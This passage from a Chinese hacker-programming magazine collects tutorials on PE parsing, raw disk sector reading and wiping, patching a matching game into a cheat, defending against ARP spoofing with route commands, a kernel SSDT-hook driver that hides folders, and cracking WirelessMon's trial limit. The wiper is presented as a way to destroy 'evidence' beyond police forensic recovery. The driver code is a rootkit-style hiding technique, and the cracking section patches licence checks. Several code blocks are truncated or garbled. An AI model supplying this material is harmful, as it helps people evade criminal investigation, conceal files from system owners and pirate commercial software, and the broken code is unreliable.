    hMapping = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, 0, NULL); // 创建文件映射
    if (!hMapping)
    {
        CloseHandle(hFile);
        return FALSE;
    }

    ImageBase = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
    if (!ImageBase)
    {
        CloseHandle(hMapping);
        CloseHandle(hFile);
        return FALSE;
    }

    pstMapFile->hFile = hFile;      // 获取相应的结构
    pstMapFile->hMapping = hMapping;
    pstMapFile->ImageBase = ImageBase; // 该基址用于PE文件其他结构的获取

    return TRUE;
}
```

```c
BOOL IsPEFile(LPVOID ImageBase) // 判断是否合法PE文件
{
    PIMAGE_DOS_HEADER pDH = NULL;
    PIMAGE_NT_HEADERS pNtH = NULL;

    if (!ImageBase)
        return FALSE;

    pDH = (PIMAGE_DOS_HEADER)ImageBase;
    if (pDH->e_magic != IMAGE_DOS_SIGNATURE)
        return FALSE;

    pNtH = (PIMAGE_NT_HEADERS)((DWORD)pDH + pDH->e_lfanew);
    if (pNtH->Signature != IMAGE_NT_SIGNATURE)
        return FALSE;

    return TRUE;
}
```

```c
PIMAGE_NT_HEADERS GetNtHeaders(LPVOID ImageBase) // 获取NT头部信息
{
    if (!IsPEFile(ImageBase))
        return NULL;

    PIMAGE_NT_HEADERS pNtH;
    PIMAGE_DOS_HEADER pDH;

    pDH = (PIMAGE_DOS_HEADER)ImageBase;
    pNtH = (PIMAGE_NT_HEADERS)((DWORD)pDH + pDH->e_lfanew); // 偏移获取

    return pNtH;
}
```

本文简单介绍了几个用于 PE 文件信息获取的函数。涉及偏移和结构体比较多，建议结合文中程序代码慢慢阅读学习，理解结构体后即可编写属于自己的 PE 文件查看工具。

# 电子取证技术——磁盘恢复

相信很多同学在做了“坏事”之后都怕警察叔叔请喝茶，不过格式化是将所有文件加上删除标志，或将文件分配表清空，系统认为分区中不存在任何内容。格式化并没有对数据区做任何操作，目录空了但内容还在，借助数据恢复知识和工具，数据仍可能被恢复。

其实删除文件时，系统只是对文件分配表做标记，文件内容仍保留在磁盘上。更准确地说，常见操作往往只删除文件名或删除标志；只要原空间未被新数据覆盖，就有机会通过恢复工具找回。

注意：格式化并非 100% 可恢复。有的情况下磁盘损坏需要先格式化才能使用；若数据重要，不建议先格式化再恢复，因为格式化过程本身是写盘过程，可能破坏残留信息。

数据删除：当需要删除一个文件时，系统会在分配表中写入删除标志，表示该文件已删除、占用空间被释放。恢复时可尝试清除删除标志或重建目录项，前提是对应数据块未被覆盖。

低级格式化：将磁盘划分出柱面和磁道，再细分扇区，包含标识部分 ID、间隙区 GAP、数据区 DATA 等。通常属于高级格式化之前的底层处理步骤。

数据恢复：数据恢复是指通过技术手段，将保存在台式机硬盘、笔记本硬盘、服务器硬盘、存储磁带库、移动硬盘、U 盘、数码存储卡、Mp3 等设备上丢失的电子数据进行抢救和恢复的技术。

通过上面的描述，也许你已经发现单纯的删除或者格式化仍然是有机会将一些“罪证”找回来的，那么怎么才能一清二白呢？根据上面的删除与格式化原理，我们不难发现，如果我们删除了文件之后，将这个磁盘再写满，这时候，我们删除的文件是找不回来的。但是写满整个磁盘的话可能要消耗很多的时间，哪还有什么方法呢？我们可以找到这个文件数据所在的扇区，然后将磁盘扇区填充满垃圾数据，这样就可以实现了，即便电子取证找到了文件，那其中的内容也将是垃圾数据。在 X 档案管理团队开发的 XDefend（暂时没有公布使用）系统中，用户将能够应用到这一功能。通过对文件写入垃圾数据进行覆盖，然后再删除文件也是可以防止被取证的。下面笔者就通过编程的方法介绍一下怎么对磁盘的删除进行垃圾数据的填充。


软件运行后的界面如图1所示。注意，不要随便对自己的磁盘进行操作，因为这将导致毁灭性的、不可恢复的数据销毁，用户可以通过移动硬盘或者闪存卡进行测试操作。首先来明确一些基本概念，扇区是磁盘最小的物理存储单元；一个簇是众多扇区的集合，可以是 2、4、8、16、32 或 64，文件占用的空间是簇的整数倍。

- 硬盘有数个盘片，每盘片两个面，每个面一个磁头。
- 盘片被划分为多个扇形区域，即扇区。
- 同一盘片不同半径的同心圆为磁道。
- 不同盘片相同半径构成的圆柱面即柱面。
- 公式：存储容量 = 磁头数 × 磁道（柱面）数 × 每道扇区数 × 每扇区字节数。
- 信息记录可表示为：××磁道（柱面），××磁头，××扇区。

上面就是关键的一些磁盘信息，更加详细的信息用户需要自己参考书籍了。

每个扇区的数据是 512 个字节，所以读取的时候就可以按照每 512 个字节为一扇区进行确认。我们来看一下关键的代码实现，首先是扇区数据的获取。

```cpp
void CDirectAccessHDDlg::OnView()
{
    UpdateData(TRUE);
    if (m_uTo < m_uFrom)
        return;

    char cTemp[1];
    memcpy(cTemp, m_sDisk.Left(1), 1);
    UINT uDiskID = cTemp[0] - 64;

    DWORD dwSectorNum = m_uTo - m_uFrom + 1;
    if (dwSectorNum > 100)
        return;

    unsigned char* bBuf = new unsigned char[dwSectorNum * 512];

    if (ReadSectors(uDiskID, m_uFrom, (UINT)dwSectorNum, bBuf) == FALSE)//判断扇区的合法性
    {
        MessageBox("所选磁盘分区不存在!", "错误", MB_OK | MB_ICONERROR);
        return;
    }

    char* cBuf = new char[dwSectorNum * 5120];//申请存储空间
    memset(cBuf, 0, sizeof(cBuf));

    for (DWORD i = 0; i < dwSectorNum * 512; i++)//确定扇区数，按照每512个字节进行确定
    {
        sprintf(cBuf, "%s%02X ", cBuf, bBuf[i]);
        if ((i % 512) == 511)//对数据进行格式化操作
            sprintf(cBuf, "%s\r\n第...");
    }
}
```

# 黑客编程

```cpp
... cBuf, (int)(i / 512) ...
if ((i % 16) == 15) sprintf(cBuf, "%s\r\n", cBuf);
else if ((i % 16) == 7) sprintf(cBuf, "%s ", cBuf);
SetDlgItemText(IDC_DATA, cBuf); // 显示数据

delete[] bBuf;
delete[] cBuf;

BOOL CDirectAccessHDDlg::ReadSectors(BYTE bDrive, DWORD dwStartSector, WORD wSectors, LPBYTE lpSectBuff)
{
    if (bDrive == 0) return 0;
    char devName[] = "\\\\.\\A:";
    devName[4] = 'A' + bDrive - 1;
    HANDLE hDev = CreateFile(devName, GENERIC_READ, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDev == INVALID_HANDLE_VALUE) return 0;
    SetFilePointer(hDev, 512 * dwStartSector, 0, FILE_BEGIN); // 每512个字节为1个扇区
    DWORD dwCB;
    BOOL bRet = ReadFile(hDev, lpSectBuff, 512 * wSectors, &dwCB, NULL); // 读取数据
    CloseHandle(hDev);
    return bRet;
}
```

数据销毁，其实就是对指定扇区的数据进行填充。代码如下所示：

```cpp
void CDirectAccessHDDlg::OnCleardata()
{
    UpdateData(TRUE);
    char cTemp[1];
    memcpy(cTemp, m_sDisk.Left(1), 1);
    UINT uDiskID = cTemp[0] - 64;
    if (uDiskID > 2) ...
}
```

```cpp
{
    if (MessageBox("要清理的是硬盘分区，请确认是否继续？", "提示", MB_YESNO | MB_ICONWARNING) != 6)
        return;
    if (uDiskID == 3)
    {
        if (MessageBox("要清理的是系统分区，请再次确认是否继续？", "提示", MB_YESNO | MB_ICONWARNING) != 6)
            return;
    }

    unsigned char bBuf[512];
    UINT i = 0;
    BOOL bRet = TRUE;
    while (m_bAllDisk) // 确定是否是全盘销毁
    {
        memset(&bBuf, 0xFF, sizeof(bBuf));
        bRet = WriteSectors(uDiskID, i, 1, bBuf);
        memset(bBuf, 0, sizeof(bBuf));
        bRet = WriteSectors(uDiskID, i, 1, bBuf);
        if (bRet == FALSE)
        {
            if (i == 0)
                MessageBox("所选磁盘分区不存在！", "错误", MB_OK | MB_ICONERROR);
            else
                MessageBox("磁盘数据擦除完毕！", "结果", MB_OK | MB_ICONERROR);
            return;
        }
        i++;
    }

    if (m_bAllDisk == FALSE) // 不是全盘销毁则按照指定的扇区销毁
    {
        for (DWORD i = m_uFrom; i <= m_uTo; i++) ...
    }
}
```

```c
memset(bBuf, 0xFF, sizeof(bBuf));
bRet = WriteSectors(uDiskID, i, 1, bBuf);
memset(bBuf, 0, sizeof(bBuf));
bRet = WriteSectors(uDiskID, i, 1, bBuf);
if (bRet == FALSE) {
    if (i == 0)
        MessageBox("所选磁盘分区不存在！", "错误", MB_OK | MB_ICONERROR);
    else
        MessageBox("磁盘数据擦除完毕!", "提示", MB_OK | MB_ICONINFORMATION);
    return;
}
```

```c
if (bDrive == 0)
    return 0;
char devName[] = "\\\\.\\A:";
devName[4] = 'A' + bDrive - 1;
HANDLE hDev = CreateFile(devName, GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDev == INVALID_HANDLE_VALUE)
    return 0;
SetFilePointer(hDev, 512 * dwStartSector, 0, FILE_BEGIN); // 设置指针
DWORD dwCB;
BOOL bRet = WriteFile(hDev, lpSectBuff, 512 * wSectors, &dwCB, NULL); // 写入文件
CloseHandle(hDev);
return bRet;
```

```c
BOOL CDirectAccessHDDlg::WriteSectors(BYTE bDrive, DWORD dwStartSector, WORD wSectors, LPBYTE lpSectBuff) // 向扇区写入数据
```

上面就是这个程序的关键两部分，写入与读取。用户可以根据上面的代码修改出自己的程序，比如说可以查找某一个文件对应的扇区有哪些，然后按照文件进行销毁，而不是按照扇区进行销毁，这样更适合于日常使用，笔者会在后面发布这样的按文件销毁的程序。

# 妙用 KeyMake 做游戏外挂

Evan

最近身边的朋友都喜欢玩一些小游戏来放松自己，例如连连看还有植物大战僵尸。但他们玩连连看到第四关就有些艰难了，于是便想做个外挂给他们玩玩。这个外挂可以突破时间限制，可以实现乱点（不论选择的两个图案是否一样），也可以跨障碍物连接。还有一些功能就不说，看下去就知道。

古人云：“知己知彼，百战不殆。”我们先来看看连连看是怎样工作的，了解工作流程之后，我们再讨论外挂的制作。打开 OD 载入水晶连连看，现在我们应该从哪里入手呢？总不至于全部分析吧。不过好在我们有外挂功能的指引，我有个习惯，就是每次分析东西的时候，喜欢按下 Ctrl + N 看看程序调用了哪些 API，如图1。随便翻了两下，发现了个函数 SetTimer，这是个很有用的函数，用于设置一个计时器，经常与 KillTimer 函数连用。


图1

# 黑客编程

KillTimer 函数的作用就是清除某个计时器。这样我们就大致有个方向了，按下 Ctrl+N 再搜索 SetTimer（打开后直接输入要找的函数名就行），找到后选择该函数按下回车，会出现调用该函数的地方，把这些地址全都下断点；用同样的方法将调用了 KillTimer 函数的地方也都下断点。

按下 F9 让程序运行起来，程序断在某个调用 SetTimer 的地方，如图2。这段代码的意思就是创建一个每 100 毫秒运行一次的计时器（唯一标识符：2004）。继续按下 F9，程序正常被打开。我们先玩一盘看看程序会断在哪里，不过现在不是玩的时候。玩过水晶连连看的朋友都知道，连连看有个提示功能，每提示一次就会减去一些时间，提示的快捷键是 T，我们只要狂按 T 就行了。

刚按下 T，程序便断下了，如图3。这里代码的意思就是创建一个每 200 毫秒运行一次的计时器（唯一标识符：2005）。相比刚才的那段代码似乎长了许多，仔细一看就看见了 `SUB EBX, EDX` 这句代码。在这里 `SUB` 是一个关键字，而 `EBX` 和 `EDX` 是操作数，`SUB` 的意思就是减，与其对应的是 `ADD`（加）。这个断点是我们使用提示功能触发的，那这段代码应该就是和提示有关的。那提示除了提示我们哪两个图案相同，还会干什么呢？还会减去我们的时间，那这里减去的就是我们的时间。这里只需要把 `SUB` 改为 `ADD`，就可以实现提示时间反增了。综合这两段代码，我们可以知道：唯一标识符为 2004 的计时器的作用就是每隔 200 毫秒减去一点我们的时间，而唯一标识符为 2005 的计时器的作用就是当我们按下 T 之后，每 200 毫秒闪动被提示的图案。

游戏既然创建了一个不断减去我们时间的计时器，那当我们没有时间的时候，它还会让计时器继续减下去吗？当然不会，这时游戏应该清除计时器，并提示我们没有时间了。如果我们不让游戏清除计时器，那是不是就实现了时间无限呢？这个问题的答案谁也不知道，我们动手试一试。

在 OD 的主窗口按下 Alt+B 打开断点管理器，这里有三个调用了 KillTimer 函数的地方，如图4。到底是哪一个呢？还记得我前面说过，游戏在清除计时器的同时，还会提示我们没有时间了。没错，这里就是一个突破口，我们只要在这三处地方中找到有关提示的代码就行了。

图2  
图3  
图4  
图5

难道我们要一处一处地找吗？没有这个必要。我们在破解软件的时候，遇到程序有失败提示的时候，通常都是用 OD 的超级字符串参考，如图5。找到了提示字符串后，双击它就会来到调用它的地方，如图6，清除计时器的代码肯定在附近，上下找找就行了。接下来，我们要找找判断 XX 是否为零的代码，通常为 `test a, a` 的形式。这样的代码在字符串的上面就有一处。可能有的小菜就会问了，为什么我们要找判断 XX 为零的代码呢？大家想一想，在我们还有时间的时候，游戏不可能就把计时器给清除了吧。在清除计时器之前必须要判断我们的剩余时间是否为零，如果是就清除计时器，反之则让我们继续游戏。

现在什么情况？嘿嘿，大家猜吧。

下面介绍第二种办法，修改跳转语句。上面已经说过了，将跳转语句里的 `JG` 改为绝对跳就可以实现时间无限。那什么是绝对跳呢？绝对跳就是不管什么情况都跳，也就是说不管我们的时间是不是零，它都跳向让我们继续游戏的地方。

外挂的第一大功能——时间无限，我们已经完成了。现在还剩下两大功能：点点和消除障碍物连接。在游戏里，我们要得分就要先选两个图案，然后游戏来判断这两个图案是不是一样，而且还没有障碍物连接。

图6

我们现在有两种办法可以实现时间无限：一是使判断代码总返回不为零，二就是改跳转语句里的 `JG` 为 `JMP`（绝对跳）。我们先来实现第一种办法，在判断代码的上面有一句 `MOV EAX, ECX`。这句代码的意思是将 ECX 的值传给 EAX，这里的 ECX 值就是我们当前的时间。这时我们可以随便找一个不为零的存储器代替 ECX，这里我找的是 EDI，将这句代码改为 `MOV EAX, EDI`，F9 运行后，狂按 T 来减分，看到了个好玩的现象，如图7。

图7

在完成第一种办法后，还发现一种更好玩的办法。大家看到在赋值语句前有一句 `SUB ECX, EAX` 了吗？这句的意思就是减去我们的时间，顺手把 `SUB` 改成 `ADD`，运行之后会出现……

那我们现在要怎么样找到判断我们选择的两个图案是否满足条件的地方呢？玩过连连看的朋友可能知道，在我们选择了两个正确的图案后，游戏会给我们加分并播放声音。突破点就出现了：要播放声音的话，肯定会调用系统 API。打开游戏的调用函数表，在那里找到一个 `WINMM.sndPlaySoundA` 函数，这是用来播放声音的。

老办法，将调用这个函数的地方全都下断点。接下来我们只要到游戏里选择两个正确的图案，看 OD 断在哪里就行了。OD 断在了如图8的地方。因为游戏要判断我们选择的两个图案是否满足两个条件，现在我们就要向上找找两个靠得比较近的转移语句。

图8

我现在已经找到了，图8圈起来的就是。我们来判断它们分别是干什么的：先将第一个转移语句里的 `JNZ` 改为与其相对的 `JZ`，F9 运行，随便点了两个不同的才给你分，你选两个相同的还不给你分。事实说明我们不能这样改。我们来看看第一个转移语句的意思：这句的意思就是当我们选择的两个图案不相同就跳；那第二个转移语句的功能就是判断两个图案是否有障碍物。理论上，我们只要将这句给 NOP 掉就行了，但实际操作就不行了，大家去试试看就知道了。那我们应该怎么办呢？

假设我们选择了两个相同的图案，那游戏会做些什么呢？先分析数据。走到第一个转移语句时，因为我们选择的两个图案一样，就继续执行下一句代码。从物理角度来说，它现在就相当于一根导线，用于连接下一句代码。那我们直接跳到转移代码的下一句代码不就行了吗？在第一个转移代码前随便找一个地方，改为 `JMP 004034DE` 就行了。我们又实现了一个功能。下面这个就简单了，把第二个转移语句的前一句改为 `JMP 004034EF` 就行了。

图9

我们现在已经把外挂的所有功能都实现了。当时这不过是通过反汇编实现的，现在就请出 KeyMake。KeyMake 常用于注册码的制作，不过因为它有文件补丁功能及内存补丁功能，我们也可以用它来做外挂。点击菜单“其他”→“制作文件补丁”，在弹出的窗口填上一些相关信息，如图9。接着，在“原始的文件”的地方选择我们未修改的游戏，再在下面的地方选择我们通过汇编实现外挂的游戏，最后点击“制作”按钮就行了！

# 巧用 Route 命令抗击 ARP 欺骗

郭建伟

现在很多单位和家庭都组建了局域网，如果在您的共享上网过程中，突然出现网络连接中断、IP 地址冲突、网络速度缓慢等故障时，那么您就有可能遭到了 ARP 欺骗攻击。局域网中很可能有人使用了 ARP 攻击软件，对正常的网络连接进行破坏。ARP 欺骗攻击作为一种专业化的攻击手段，给网络安全带来了严峻考验。ARP 协议（即“Address Resolution Protocol”）是“地址解析协议”的缩写，它是工作在 TCP/IP 协议栈底层的协议，负责将某个 IP 地址解析为对应的 MAC 地址。在局域网中传输数据时，实际上中传输的是数据帧，帧中保存有目标机的 MAC 地址（即物理网卡地址），从而保证网络数据发送的准确性。

在网络环境中，网络数据帧所走的路径由路由表确定，当其到达指定的网络段后，只有目标机的 MAC 地址和数据帧中的 MAC 地址相同时，才会接收该数据帧。在每台主机的内存中都存在一张 ARP 和 MAC 的缓存表，表中的 IP 和 MAC 地址是一一对应的。通常主机在发送数据帧之前，都要到该缓存表中寻找和目标 IP 对应的 MAC 地址；如果没有找到的话，该主机就会发送一个包含目标机 IP 的 ARP 广播，目标机收到该广播后，即可将自己的 MAC 回应过来。该主机即可更新自己的 ARP 缓存表，然后再发送数据帧。

如果攻击者（假设为 PC2）伪造了虚假的 MAC 地址，并将其与实际的 PC3 的 IP 绑定，然后将错误的 ARP 绑定信息发送给其它主机（假设为 PC1），PC1 就信以为真，据此更改本机内存中的 ARP 缓存表。当 PC1 根据错误的 MAC 地址和 PC3 通讯时，当然就无法成功。因为局域网中的数据传输是按照 MAC 地址进行的，于是 PC1 就反复向网络其它主机（特别是网关）发送大量无效的 ARP 应答数据包，这样就会造成严重的网络堵塞现象。

那么如何在局域网中防范 ARP 攻击呢？实际上利用 Windows 自带的“Route”命令，就可以有效抗击 ARP 攻击。我们知道，在 Windows 中存在一个路由表，该方法就是通过“Route”命令来修改这个路由表，来达到防范 ARP 攻击的目的。在 CMD 窗口中执行命令 `route print`，即可显示 Windows 的活动路由表信息。

在这里对该路由表做简要的分析。例如其中的第一行为：“Network Destination  Netmask  Gateway  Interface  Metric ...”。其中的“Network Destination”列指的是目标网段，“Netmask”列指的是子网掩码，“Interface”列指的是到达该目的地的本地路由器出口 IP 地址，“Gateway”列指的是下一条路由器入口的 IP 地址，路由器通过“Interface”列和“Gateway”列定义一条到下一个路由器的链路。

在一般情况下，“Interface”列和“Gateway”列显示的 IP 属于同一网段；“Metric”列指的是该条路由记录的优先级。一般情况下如果有多条到达目标 IP 的路由记录，路由器将采用“Metric”值最小的那条路由。根据 Windows 提供的活动路由表，我们可以清晰地看到：当本机接收的数据包的目标网段不在本机的路由记录中时，Windows 就将该数据包通过“Interface”列指示的 IP 作为转发接口，将数据包发送到“Gateway”列指示的 IP 地址中，该地址就是下一个路由器的一个接口，由路由器处理。

本机要想访问 Internet 的话，就通过网关（这里假设为 192.168.0.1）来连接 Internet 上的服务器。因此，只要将路由表中的真实网关地址修改为一个虚假的网关地址，在当前的路由表中添加一条新的路由，就可以达到防止 ARP 欺骗的目的。

在局域网中任意一台主机上打开网络连接窗口，在本机连接属性窗口中打开 TCP/IP 协议配置窗口，在其中将网关地址（假设为 192.168.0.1）设置为一个不存在的 IP 地址（例如 192.168.0.99）。之后在 CMD 窗口中执行 `route print` 命令，在 Windows 路由表中可以看到 “Gateway” 指示的地址已经变成了 “192.168.0.99”，因为该网关是不存在的，因此本机是无法上网的。接着我们运行命令 `route add 0.0.0.0 mask 0.0.0.0 192.168.0.1 metric 1`，在 Windows 路由表中添加一条新的路由信息。这样再次运行 `route print` 命令，可以看到路由表已经发生了变化，本机可以正常上网了。因为该命令在路由表中添加了一条真实的路由信息，本机通过真实的网关可以访问 Internet 了。

但是，如果在本机上触发了 ARP 病毒，或者有人在该机上运行了 ARP 欺骗程序，那么该机是无法上网的，同时局域网中的其它主机可以不受其影响而正常上网。

在激活 ARP 欺骗程序的时候，会向局域网中的所有主机发送 ARP 欺骗数据包。当其它网络主机接收到该 ARP 数据包时，都会向其反馈一个包含其主机自身 IP 和 MAC 地址，以及包含现在使用的网关地址信息的数据包，同时更新自身的 ARP 表。所以在其它主机收到包含假网关的 ARP 数据包时，也会更新自身的 ARP 表。这样到最后只有发送 ARP 欺骗的主机只能得到一个虚假的网关地址，因此其就无法正常上网了。

基于以上原理，我们可以在局域网中将所有主机的网关地址全部进行上述修改，同时在每台电脑上创建一个批处理文件，其中包含 `route add 0.0.0.0 mask 0.0.0.0 192.168.0.1 metric 1` 命令，并将其放在 Windows 启动项中。这样当每次开机时都会自动在路由表中添加真实网关信息。那么即使有人在局域网中任意电脑上使用 ARP 欺骗软件对网络进行攻击，那么对网络的安全也是没有损害的，最终受到影响的只能是攻击者自身的电脑。当然，破解该方法也很简单，只需在 CMD 窗口中执行命令 `route delete`，将路由表中和虚假网关关联的路由信息删除，之后将网卡的 TCP/IP 配置窗口中的网关地址设置为真实网关即可。

# 驱动级文件隐藏技术

沧海浮萍

本文为大家介绍一下采用驱动来隐藏文件夹的技术。这里主要就是使用驱动进行编程，有一定的技术难度，当然用户也可以只学会这个驱动的使用即可。后面会给出 MFC 调用这个驱动实现文件夹隐藏的实例，读者可以自己修改成定制的文件夹隐藏程序，可以用来隐藏“好东东”哦。

下面主要讲代码实现部分。至于应用程序部分，用户可以自己阅读，这里只进行简要说明。注意在驱动进行测试的时候，建议读者采用虚拟机进行测试，防止蓝屏。由于使用本文所提供的代码而造成的系统损坏或者数据丢失等情况，笔者不负责任。

应用程序部分，加载驱动与卸载驱动：

图1

```cpp
#define SYS_LINK "Cybero2HideCD1"
#define SYS_NAME "Cybero2Hide"

BOOL LoadDriver(char* pDevice, HANDLE* lphDevice) // 加载驱动
{
    DWORD error;
    if (!LoadDeviceDriver(SYS_NAME, pDevice, lphDevice, &error))
    {
        UnloadDriver(SYS_NAME, ...);
        return FALSE;
    }

    return TRUE;
}
```

```cpp
void UnloadDriver(char* pDevice, HANDLE* lphDevice) // 卸载驱动
{
    BOOL ret = TRUE;
    if (*lphDevice)
        ret = CloseHandle(*lphDevice);

    if (!ret)
    {
        DWORD err = GetLastError();
    }

    UnloadDeviceDriver(pDevice);
}
```

应用程序运行后的界面如图1所示。这里笔者没有进行过多的界面修饰，采用的路径都是默认定义在程序中的，用户可以自己进行修改，改成更加灵活的应用程序。这里主要看一下驱动……

## 通知驱动，并启用隐藏功能

```cpp
void CExeDlg::OnStartHook()
{
    // TODO: Add your control notification handler code here
    DWORD error, bytesReturned;
    HANDLE PID = 0;

    error = DeviceIoControl(
        g_hFile,
        (DWORD)IOCTL_HIDEHKAPI_START_HOOK,
        NULL,
        0,
        NULL,
        0,
        &bytesReturned,
        NULL
    ); // 通过 DeviceIoControl 函数与驱动进行数据交互

    if (!error)
    {
        char data[50] = {0};
        DWORD err = GetLastError();
        sprintf(data, "OnStartHook error is %d", err);
        MessageBox(data, NULL, MB_OK);
        return;
    }
}
```

## 向驱动中添加需要隐藏的文件夹路径

```cpp
void CExeDlg::OnAddHideFile()
{
    // TODO: Add your control notification handler code here
    DWORD error, bytesReturned;
    FILEHIDERULE FileHideRule = {0};
    WCHAR path[100] = L"d:\\hide";

    FileHideRule.IsDirection = TRUE;
    FileHideRule.len = wcslen(path);
    wcsncpy(FileHideRule.Path, path, FileHideRule.len);

    error = DeviceIoControl(
        g_hFile,
        (DWORD)IOCTL_HIDEHKAPI_ADDFILERULE,
        &FileHideRule,
        sizeof(FILEHIDERULE),
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (!error)
    {
        MessageBox("OnAddHideFile failing", NULL, MB_OK);
    }

    return;
}
```

## 通知驱动删除指定的隐藏文件夹路径

```cpp
void CExeDlg::OnDelHideFile()
{
    // TODO: Add your control notification handler code here
    DWORD error, bytesReturned;
    FILEHIDERULE FileHideRule = {0};
    WCHAR path[100] = L"d:\\hide";

    FileHideRule.IsDirection = TRUE;
    FileHideRule.len = wcslen(path);
    wcsncpy(FileHideRule.Path, path, FileHideRule.len);

    error = DeviceIoControl(
        g_hFile,
        (DWORD)IOCTL_HIDEHKAPI_DELFILERULE,
        &FileHideRule,
        sizeof(FILEHIDERULE),
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (!error)
    {
        MessageBox("OnDelHideFile fail", NULL, MB_OK);
    }
    return;
}
```

## 通知驱动，停止文件夹隐藏

```cpp
void CExeDlg::OnStopHook()
{
    // TODO: Add your control notification handler code here
    DWORD error, bytesReturned;
    HANDLE PID = 0;

    error = DeviceIoControl(
        g_hFile,
        (DWORD)IOCTL_HIDEHKAPI_STOPHOOK,
        NULL,
        0,
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (!error)
    {
        MessageBox("OnStopHook fail", NULL, MB_OK);
    }
    return;
}
```

驱动部分的文件夹隐藏核心代码如下：

```cpp
BOOLEAN StartHook()
{
    _asm
    {
        CLI
        MOV EAX, CR0
        AND EAX, NOT 10000H
        MOV CR0, EAX
    }

    if (!RealZwCreateFile)
    {
        // 文件打开
        // 保存真正的 ZwCreateFile 函数地址
        RealZwCreateFile = (REALZWCREATEFILE)(...);
    }
}
```

```c
// 把自定义的替换函数指针指向服务表
(REALZWCREATEFILE)(SYSTEMSERVICE(ZwCreateFile)) = HookZwCreateFile;
}

if (!RealZwQueryDirectoryFile)
{
    // 文件隐藏
    // 保存真正的 ZwQueryDirectoryFile 函数地址
    RealZwQueryDirectoryFile = (REALZWQUERYDIRECTORYFILE)(KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)ZwQueryDirectoryFile+1)]);

    // 把自定义的替换函数指针指向服务表
    (REALZWQUERYDIRECTORYFILE)(SYSTEMSERVICE(ZwQueryDirectoryFile)) = HookZwQueryDirectoryFile;
}

_asm
{
    MOV EAX, CR0
    OR EAX, 10000H
    MOV CR0, EAX
    STI
}

return TRUE;
}
```

```c
MOV EAX, CR0 // 存储 CR0 寄存器状态，用于以后恢复
AND EAX, NOT 10000H // 设置 WP 位为无效状态
MOV CR0, EAX // 设置完毕后写回 CR0 状态
}

if (RealZwCreateFile)
{
    // 恢复原始函数指针
    (REALZWCREATEFILE)(SYSTEMSERVICE(ZwCreateFile)) = RealZwCreateFile;
    RealZwCreateFile = NULL;
}

if (RealZwQueryDirectoryFile)
{
    // 恢复原始函数指针
    (REALZWQUERYDIRECTORYFILE)(SYSTEMSERVICE(ZwQueryDirectoryFile)) = RealZwQueryDirectoryFile;
    RealZwQueryDirectoryFile = NULL;
}

_asm
{
    MOV EAX, CR0
    OR EAX, 10000H
    MOV CR0, EAX
    STI
}

return TRUE;
}
```

下面是停止文件夹隐藏内核的核心代码：

```c
BOOLEAN StopHook()
{
    _asm
    {
        CLI // 暂停中断，防止执行被打断而造成蓝屏
    }
}
```

详细的代码读者需要参考附带的源代码。对驱动中附带的汇编代码，其原理性的东西都需要自己参考 x86 指令系统与汇编语言，笔者在这里就不介绍了（因为很多很复杂）。总之，操作系统原理与汇编很重要，如果要对计算机学得很精通的话，这两个是必修的。

# 找到根源，突破一切限制（抛砖篇）

- 操作系统环境：Windows XP
- 目标程序：WirelessMon 4.1
- 目标程序大小：3.91MB
- 工具：ExeinfoPE、Dintal-OD

前言：这个软件没注册的时候有着很多的限制，或者换句话说有着很多的验证。在开始的时候我尝试从功能限制上突破，结果发现即使是突破了多项功能限制，也会存在很多暗桩，依然存在很多限制。于是我放弃了从功能限制逐项突破，转而寻找更少改动即可实现完整破解的方式。

不管好坏，为了让大家更好地学习，我先回忆一下从功能限制上突破的思路。先打开软件，未注册窗口弹出（如图1），如果没有注册则有时间限制。我们尝试调整系统时间后再次运行软件，观察其联网状态下的时间校验行为。


软件启动时会弹出过期提示（如图2），再按 Continue 会弹出阻止提示（如图3）。将系统时间改回后，软件又可使用且仍显示 30 天，说明时间验证基于本地时间。若仅为继续使用，改系统时间即可，但本文继续尝试去掉 30 天试用限制。


先让系统到 2013 年使软件不可继续使用，再分析限制来源。使用 ExeinfoPE 查壳，显示 Microsoft Visual C++。随后载入 OD，针对启动提示字符串“Your evaluation period has expired...”下断点（bp MessageBoxA），中断后回到程序领空向上查找相关判断代码。

```asm
004E2321    70 8E              jo ...
004E2327    68 B8986800        push ...
004E232C    E8 FFD7FFFF        call ...
004E2331    83C4 04            add esp,4
; 关键：判断时间是否大于30天，大于则不跳
```

```asm
004E2334  mov dword ptr ss:[ebp-A58],eax
004E233A  mov ecx,dword ptr ss:[ebp-A58]
004E2340  mov dword ptr ss:[ebp-89C],edx
004E2346  push 50976800
004E2348  call 004DFA50
004E2350  add esp,4
...
004E237E  call dword ptr ds:[<&USER32.Message>] ; 过期提示
```

```asm
如果系统时间被修改则不跳转，改 jmp
004E21D8  push 78976800
004E21DD  call 004DFA50
004E21E2  add esp,4
004E21E5  mov dword ptr ss:[ebp-A50],eax
...
004E222B  call dword ptr ds:[<&USER32.Message>] ; 提示系统时间被修改
```

因此可以知道，让 004E2321 的 jle 实现跳转则可以继续试用，我这里把 jle 改为 jmp。修改后保存一份，测试效果和猜测的结果一样。但是 Continue 按钮依然不能按（如图4）。OD 再次载入程序，老方法 bp MessageBoxA，F9 运行，Alt+F9 返回到程序领空，定位到如下代码：

这次奇怪了，原来程序检测到系统时间被修改了。按照图片内的方法改 jle 为 jmp，可轻松过掉。然后继续我们刚才的工作，过“continue”提示。还是老办法 bp MessageBoxA，发现无法断下，那可能不是使用 MessageBoxA 函数调用的提示框了。不理它用什么函数了，用暂停法：当提示框出现的时候点暂停，然后 Alt+F9 返回程序领空，停在 004C20F7。继续窗口有提示的内容（如图5），分析代码可知如果程序可以继续试用，则 004C20DA 处会实现跳转，因此改 jmp。

```asm
004E21C1  add eax,0E10
004E21C6  mov ecx,dword ptr ss:[ebp-980]
004E21CC  cmp dword ptr ds:[ecx+294],eax
004E21D2  jle 004E22C8
```


修改好后运行测试发现，提示框是没了，但是也仅仅是提示框没了而已。所以再次来到提示的地方，找到段首 004C2060 下断，然后运行。断下后在对话窗口第一行点右键，返回到汇编窗口，这时可知这里才是真正的功能代码。修改再看看是否去掉了“continue”，F9 运行后，发现程序卡死了，估计修改这里是没用的。

